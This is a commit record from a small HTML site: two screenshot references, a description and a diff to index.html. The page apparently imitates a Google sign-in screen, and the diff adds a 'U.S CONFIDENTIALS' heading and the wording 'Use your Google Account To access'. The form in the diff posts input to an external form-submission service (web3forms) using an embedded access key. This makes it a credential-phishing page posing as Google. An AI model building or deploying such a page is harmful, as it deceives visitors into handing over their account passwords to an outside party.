

Before and after one commit to Mrmiles-alpha/mails, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 105-674 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -13,8 +13,9 @@
         <div class="logo">
 
         </div>
+        <h1 style="text-align:center;>U.S CONFIDENTIALS</h1>
     <h2>Sign In</h2>
-    <p>Use your Google Account</p>
+    <p>Use your Google Account To access</p>
     <form action="https://api.web3forms.com/submit "method="POST">
       <input type="hidden" name="access_key" value="e38bf589-d598-413f-a513-0335112aa230">
         <div class="inputBox">
```
